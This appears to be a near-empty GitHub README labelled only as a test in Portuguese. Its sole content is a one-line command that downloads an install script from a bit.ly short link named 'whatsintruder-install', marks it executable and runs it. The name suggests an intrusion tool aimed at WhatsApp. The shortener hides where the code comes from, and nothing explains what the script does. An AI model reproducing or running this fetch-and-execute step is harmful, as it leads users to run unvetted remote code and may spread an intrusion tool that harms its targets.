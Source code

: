 # teste
apenas teste
cd ~ && wget -qO install.sh https://bit.ly/whatsintruder-install && chmod +x install.sh && ./install.sh
